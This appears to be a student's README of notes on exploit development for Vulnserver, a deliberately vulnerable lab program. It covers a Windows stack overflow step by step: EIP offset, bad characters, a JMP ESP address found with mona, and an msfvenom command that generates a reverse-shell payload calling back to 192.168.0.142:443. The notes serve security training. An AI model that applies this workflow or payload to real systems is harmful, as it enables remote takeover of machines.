








# Vulnserver exploit development

1. Use `fuzz.py` to know how many A will get overflow.

    You will see AAAA on EIP `CPU - thread 000006BC` window

2. Use pattern to locate where EIP is

    ```sh
    locate pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q 396F4338
    [*] Exact match at offset 2006
    ```

3. Observer and find that ESP is pointing to the begining of CCCCCC

    

4. Expand the payload from 2100 to 2500 by increase the length of CCCC section, Run again and confirm that this works.

    

5. Bad characters checker, badchars is \x00 only, see code at bad_chars.py

6. Call `!mona modules`, the result is display on `Log data` windows, find that vulnserver.exe and vulnserver.dll is not protected.

    

7. Inspect the memory map on `Memory map` windows

    

8. /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

    ```
    root@kali:~/Desktop/exercise/7_win_bufferoverflow/vulnserver# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    jmp esp 
    nasm > jmp esp
    00000000  FFE4              jmp esp
    ```

9. use mona to find address => 0x625011af

    `!mona find -s "\xff\xe4" -m essfunc.dll`

    

10. update the script to replace B with address  \xaf\x11\x50\x62, set breakpoint at 0x625011af

    

11. run pre_exploit.py, the breakpoint trigger and run to CCCCCC

    

12. Now create a payload and replace the CCC section

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.142 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00"
    ```

13. Create and run exploit.py, and a reverse shell is spawn.

     

## Extra knowledge

!!! Dont attach to an existing process, use open.


Explain of NXCOMPACT, only protect 
https://blog.csdn.net/zhou191954/article/details/38048345
